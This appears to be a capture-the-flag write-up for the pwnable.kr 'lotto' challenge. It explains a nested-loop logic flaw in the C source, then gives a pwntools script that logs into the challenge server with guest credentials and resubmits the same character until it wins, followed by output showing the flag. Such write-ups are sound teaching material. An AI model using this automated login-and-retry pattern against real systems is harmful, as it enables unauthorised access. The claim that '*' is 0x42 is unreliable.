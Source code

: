 # LOTTO
again an easy one.
The problem is here:
```C
int match = 0, j = 0;
for(i=0; i<6; i++){
	for(j=0; j<6; j++){
		if(lotto[i] == submit[j]){
			match++;
		}
}
```
This loop is testing any number in `lotto` against any number in `submit`.
The right way to loop is:
```C
int match = 0, i=0;
for(i=0; i<6; i++){
	if (lotto[i] == submit[i]){
		match++;
	}
}
```
So if:
- the input contains only char _`X`_
- _`ord(X)`_ is in range of 1 - 45

It will take a second but it will work :)

## Exploit script
A simple script that connects to the remote server, running the process, and spamming `*` -> (which is `0x42`)
```python
import pwn

remote_ssh = pwn.ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = remote_ssh.process('./lotto')

for i in range(1000):
	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'******')
	_ , ans = p.recvlines(2)
	if b"bad" not in ans:
		print(ans.decode())
		break
```
Output:
```
[+] Connecting to pwnable.kr on port 2222: Done
[*] lotto@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[+] Starting remote process None on pwnable.kr: pid 269157
[!] ASLR is disabled for '/home/lotto/lotto'!
sorry mom... I FORGOT to check duplicate numbers... :(
```